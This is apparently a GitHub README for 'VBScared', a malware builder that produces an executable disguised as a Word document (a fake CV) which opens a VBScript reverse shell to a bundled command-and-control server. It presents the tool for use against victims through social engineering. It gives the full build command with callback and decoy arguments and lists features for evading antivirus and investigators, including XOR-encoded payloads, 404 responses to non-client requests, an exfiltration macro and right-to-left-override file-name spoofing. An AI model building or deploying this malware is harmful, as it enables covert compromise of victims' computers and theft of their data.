 # VBScared Tool 👻

VBScared is an executable, disguised as a .docx file, that executes a VBScript in-memory reverse shell upon double clicking. The executable can be delivered to victims via social engineering tactics.

## Demo

https://github.com/user-attachments/assets/223b6022-3abf-4a4d-b086-1ede8bb9ca19

## Installation

2 tools are needed during compilation. Add the following binaries to your PATH:

* [Windres](https://winlibs.com/) (this is needed to attach icons to the generated executable and is included in mingw-w64, scroll down to find the downloads)
* [CL](https://visualstudio.microsoft.com/) (included in visual studio, example path `C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.41.34120\bin\Hostx64\x64\cl.exe`)
* [VsDevCmd](https://visualstudio.microsoft.com/) (included in visual studio, example path `C:\Program Files\Microsoft Visual Studio\2022\Community\Common7\Tools\VsDevCmd.bat`)

Next, install the necessary python packages using `py -3 -m pip install -r requirements.txt`.

## Automated build

After adding the previous binaries to your PATH, you can run the `generate.py` script under `scripts` to automate the build process. For example, running the following command will result in an executable disguised as `CV-of-Alexe.docx`. Note that we chose the name Alexe here, as exe is always present in the name.

```
py -3 .\scripts\generate.py -p disguisedshell.vbs -a CALLBACK_URL=http://localhost:80/ FILE_URL=https://cdn.create.microsoft.com/catalog-assets/en-us/972db91c-baf9-4c6b-9605-00b3aa24e07c/TF972db91c-baf9-4c6b-9605-00b3aa24e07c06706e45_wac-21b6606d1277.docx FILE_OUTPUT_NAME=CV-of-Alexe.docx -o CV-of-Al  -s **[]!?**
```

## C2

The `disguisedshell.vbs` payload is designed to work with the bundled python C2 server. To use the C2 server, simply point your CALLBACK_URL (when using `generate.py`, see above) to your C2 host. The C2 will notify you in case a client connects. Type `HELP` for possible commands.

## Features
* Manage multiple connected clients
* Execute commands
* C2 detection evasion, the C2 detects client requests from investigation/other requests and will answer with 404 if request is not coming from client
* Exfilatration macro available
* Payloads are encoded (XOR + key) inside the executable and decoded at runtime. Use -s to encode with a key, different keys will result in different signatures for your executable. This is also useful to avoid AV detection.
* Traffic between clients and the C2 is encoded (XOR + key) to avoid detection.

## Extendability

You can use the vbscared tool with your own custom vbs payloads (use the -p flag to choose your payload).

## Q&A

#### Why is it not visible to the naked eye that the exploit file is actually an executable
We make use of a technique called RTLO hacking (right-to-left-override hacking) to hide our malware in plain sight, see [here](https://www.freecodecamp.org/news/rtlo-in-hacking/) for a detailed explanation.

#### Why do you use vbscript?
This is a small pet project of mine, I chose to execute VBS in-memory because I was up for the challenge and wanted to learn. The main intention was to avoid AV engines by executing VBS in-memory.